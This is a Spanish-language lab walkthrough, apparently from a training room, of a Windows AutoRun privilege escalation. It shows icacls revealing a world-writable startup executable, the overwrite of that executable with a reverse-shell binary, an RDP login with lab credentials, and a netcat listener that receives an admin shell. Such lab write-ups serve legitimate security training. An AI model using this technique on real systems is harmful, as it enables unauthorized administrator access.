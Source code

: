 Permisos con `icacls`

```
icacls "C:\Program Files\Autorun Program\program.exe"
icacls "C:\Program Files\Autorun Program\program.exe"
C:\Program Files\Autorun Program\program.exe Everyone:(F)
                                             NT AUTHORITY\SYSTEM:(F)
                                             BUILTIN\Administrators:(F)
                                             WIN-QBA94KB3IOF\Administrator:(F)
                                             NT AUTHORITY\SYSTEM:(I)(F)
                                             BUILTIN\Administrators:(I)(F)
                                             BUILTIN\Users:(I)(RX)
                                             APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                             APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Reescribiendo el ejecutable `AutoRun`

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.
```

Inicio sesion como `admin`

```
rdesktop -u admin -p password123 10.10.125.244
```

> Inicié un oyente en Kali y luego reinicié la maquina virtual Windows, inciando sesion como `admin:password123`.  
> Tener en cuenta que en un compromiso del mundo real, ¡Tedria que esperar a que un administrador inicie sesión por sí mismo!

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49758
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

Extra:  
Programas que se ejecutan en el arranque del sistema

```
wmic startup get caption,command 2>null &
Caption            Command                                       
RunWallpaperSetup  RunWallpaperSetup.cmd                         
SecurityHealth     %windir%\system32\SecurityHealthSystray.exe   
My Program         "C:\Program Files\Autorun Program\program.exe"
```
----
